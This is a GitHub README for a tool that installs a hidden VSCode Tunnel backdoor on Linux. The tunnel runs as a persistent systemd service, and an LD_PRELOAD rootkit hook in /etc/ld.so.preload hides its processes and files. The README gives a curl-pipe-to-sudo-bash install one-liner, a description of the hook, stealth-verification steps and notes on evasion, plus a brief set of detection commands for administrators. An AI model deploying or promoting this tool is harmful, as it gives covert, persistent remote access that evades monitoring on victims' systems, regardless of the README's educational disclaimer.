









# SPYKOCHAN - Stealth VSCode Tunnel Deployment

<div align="center">

```
 ▗▄▄▖▗▄▄▖▗▖  ▗▖▗▖ ▗▖ ▗▄▖  ▗▄▄▖▗▖ ▗▖ ▗▄▖ ▗▖  ▗▖
▐▌   ▐▌ ▐▌▝▚▞▘ ▐▌▗▞▘▐▌ ▐▌▐▌   ▐▌ ▐▌▐▌ ▐▌▐▛▚▖▐▌
 ▝▀▚▖▐▛▀▘  ▐▌  ▐▛▚▖ ▐▌ ▐▌▐▌   ▐▛▀▜▌▐▛▀▜▌▐▌ ▝▜▌
▗▄▄▞▘▐▌    ▐▌  ▐▌ ▐▌▝▚▄▞▘▝▚▄▄▖▐▌ ▐▌▐▌ ▐▌▐▌  ▐▌
```

**Automated VSCode Tunnel installer with LD_PRELOAD stealth capabilities**


</div>

---

## 📖 Overview

SPYKOCHAN is an automated deployment tool for VSCode Tunnel that implements process hiding techniques using LD_PRELOAD hooks. The tool was inspired by real-world tactics observed in the [Stately Taurus campaign](https://unit42.paloaltonetworks.com/stately-taurus-abuses-vscode-southeast-asian-espionage/) documented by Palo Alto Networks Unit 42.

### Key Capabilities

- ✅ **Auto-compilation** - Downloads and compiles hook library from source
- ✅ **Multi-distro support** - Works on Ubuntu, Debian, CentOS, Fedora, Arch, Alpine, OpenSUSE
- ✅ **Multi-architecture** - Supports x86_64 (amd64) and aarch64 (arm64)
- ✅ **Smart dependency handling** - Auto-installs gcc/wget/curl if missing
- ✅ **Pre-installation testing** - Validates hook functionality before deployment
- ✅ **LD_PRELOAD hooking** - Hides VSCode processes and files from system tools
- ✅ **Systemd integration** - Persistent service with auto-restart
- ✅ **Clean uninstaller** - Removes all components and restores configurations

---

## 🚀 Quick Start

### Installation

```bash
# Download and run
curl -fsSL https://raw.githubusercontent.com/wooxsec/spykochan-vscode/main/install.sh | sudo bash
```

Or manual installation:

```bash
wget https://raw.githubusercontent.com/wooxsec/spykochan-vscode/main/install.sh
chmod +x install.sh
sudo ./install.sh install
```

### Uninstallation

```bash
sudo ./install.sh uninstall
```

---

## 🔍 How It Works

### 1. Build Environment Setup
- Detects Linux distribution and package manager
- Auto-installs build tools (gcc, make) if not present
- Auto-installs download tools (wget/curl) if not present

### 2. Hook Compilation
- Downloads `vscode.c` from GitHub repository
- Compiles to shared library (`hook.so`) with appropriate flags
- Validates ELF shared object structure

### 3. Stealth Testing
- Creates test directory and applies LD_PRELOAD
- Verifies hook successfully hides target directories
- Aborts installation if test fails

### 4. VSCode Deployment
- Downloads VSCode CLI for detected architecture
- Generates random 8-character tunnel name
- Creates systemd service unit
- Deploys hook library to `/usr/lib/vscode.so`
- Configures global LD_PRELOAD in `/etc/ld.so.preload`

### Hook Mechanism

The hook library intercepts `readdir()` and `readdir64()` calls to filter out:
- Files/directories containing: `vscode`, `.vscode`, `code-tunnel.service`
- Processes with names: `code`, `vscode`, `code-server`, `node`, `sh`

---

## 📋 System Requirements

| Requirement | Details |
|------------|---------|
| **OS** | Linux with systemd |
| **Architecture** | x86_64 (amd64) or aarch64 (arm64) |
| **Privileges** | Root access required |
| **Distros** | Ubuntu, Debian, CentOS, RHEL, Fedora, Arch, Alpine, OpenSUSE |

---

## 📸 Installation Flow

<details>
<summary>Click to view screenshots</summary>

### Pre-Installation Testing


### Build Environment Setup


### Hook Compilation


### Stealth Verification


### VSCode Installation


### Service Deployment


### Completion


### Service Logs


### Process Verification


### File System Check


### Uninstallation


</details>

---

## 🛠️ Usage Examples

### View tunnel status
```bash
sudo systemctl status code-tunnel.service
```

### View live logs
```bash
sudo journalctl -u code-tunnel.service -f
```

### Get tunnel name
```bash
sudo journalctl -u code-tunnel.service | grep "name" | tail -1
```

### Change tunnel name
```bash
sudo systemctl stop code-tunnel.service
sudo nano /etc/systemd/system/code-tunnel.service
# Modify the --name parameter
sudo systemctl daemon-reload
sudo systemctl start code-tunnel.service
```

### Verify stealth mode
```bash
# These should NOT show VSCode processes/files
ps aux | grep code
ls -la /usr/lib/ | grep vscode
ls -la /proc/ | grep code
```

---

## ⚙️ Configuration Files

| File | Purpose |
|------|---------|
| `/etc/systemd/system/code-tunnel.service` | Service configuration |
| `/usr/lib/vscode-server/code` | VSCode CLI binary |
| `/usr/lib/vscode.so` | Stealth hook library |
| `/etc/ld.so.preload` | Global LD_PRELOAD configuration |

---

## 🔒 Security Considerations

### Detection Evasion Limitations

While this tool implements stealth techniques, be aware of limitations:

- ❌ **Static binaries** - Can bypass LD_PRELOAD hooks
- ❌ **Kernel-level tools** - Direct syscalls won't be hooked
- ❌ **Network monitoring** - Traffic analysis can still detect tunnel
- ❌ **Advanced EDR** - May detect LD_PRELOAD manipulation
- ❌ **File integrity monitoring** - Will detect `/etc/ld.so.preload` changes

### Defensive Measures

**For system administrators:**
```bash
# Check for LD_PRELOAD abuse
cat /etc/ld.so.preload
strings /proc/*/environ | grep LD_PRELOAD

# Find hidden processes with raw syscalls
ls -la /proc/ | awk '{print $9}' | grep '^[0-9]' | while read pid; do
  cat /proc/$pid/comm 2>/dev/null
done

# Check for suspicious libraries
lsof | grep -i preload
```

---

## 🎯 Inspiration & References

This project demonstrates techniques documented in real-world threat research:

- **[Stately Taurus APT Campaign](https://unit42.paloaltonetworks.com/stately-taurus-abuses-vscode-southeast-asian-espionage/)** - Palo Alto Networks Unit 42
  - VSCode Tunnel abuse for C2 communications
  - Legitimate tools for malicious purposes
  - Southeast Asian espionage operations

**Academic Use Only**: This tool is created for:
- Red team operations with proper authorization
- Security research and education
- Defensive security testing
- Understanding modern evasion techniques

---

## ⚠️ Legal Disclaimer

**For Educational and Authorized Testing Only**

- 📚 This tool is intended for security research and authorized penetration testing
- ⚖️ Unauthorized access to computer systems is illegal
- 🛡️ Always obtain proper authorization before deployment
- 📋 The author is not responsible for misuse of this software
- 🔐 Use responsibly and ethically

---

## 🤝 Contributing

Contributions are welcome! Please submit pull requests or open issues for:

- Bug fixes and improvements
- Additional distribution support
- Enhanced evasion techniques (for research purposes)
- Documentation updates

---

## 📜 License

MIT License - See [LICENSE](LICENSE) file for details

---

## 🙏 Credits

- **Palo Alto Networks Unit 42** - Threat intelligence and research
- **VSCode Team** - For the tunnel feature
- **Linux Community** - For LD_PRELOAD capabilities

---

<div align="center">

**⭐ Star this repo if you find it useful for your research!**

Made for security research and education

[Report Issues](../../issues) • [Documentation](../../wiki) • [Changelog](CHANGELOG.md)

</div>
